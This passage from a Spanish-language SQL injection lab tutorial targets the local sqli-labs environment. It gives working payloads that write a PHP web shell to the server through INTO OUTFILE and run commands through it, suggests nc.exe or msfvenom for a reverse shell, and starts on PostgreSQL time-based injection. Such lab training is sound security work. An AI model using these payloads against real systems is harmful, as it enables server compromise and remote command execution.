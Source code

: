 📌 **💡 Consejo:** Muchas configuraciones de seguridad bloquean `LOAD_FILE()`. Prueba `INTO OUTFILE` para escribir en archivos.

## **🔹 PRÁCTICA 17: Creación de una Web Shell con `SELECT INTO OUTFILE`**

📌 **Objetivo:** Subir un **webshell PHP** usando SQLi.

### **🔹 Explicación**

`SELECT INTO OUTFILE` permite escribir archivos en el servidor web.

### **🔹 Paso a Paso**

1. Comprueba los permisos:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,@@secure_file_priv,3 --+
   ```
   
2. Crea un webshell PHP:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3 INTO OUTFILE 'C:/xampp/htdocs/shell.php' --+
   ```
   
3. Accede a la shell en el navegador:

   ```sql
   http://localhost/shell.php?cmd=whoami
   ```
   
4. Si ves el usuario del servidor, ¡explotación exitosa!

📌 **💡 Consejo:** **Usa `nc.exe` o `msfvenom` para obtener una shell reversa en Windows.**

------

## **🔹 PRÁCTICA 18: Inyección SQL en PostgreSQL y Microsoft SQL Server**

📌 **Objetivo:** Explorar diferencias entre bases de datos.

### **🔹 Explicación**

Diferentes motores de bases de datos requieren sintaxis específica.

### **🔹 Paso a Paso**

1. Detecta el motor de base de datos con:

    ```sql
   SELECT version();
   ```
   
2. PostgreSQL SQLi (equivalente a SLEEP() en MySQL):

    ```sql
   ' OR pg_sleep(5) --
   ```
   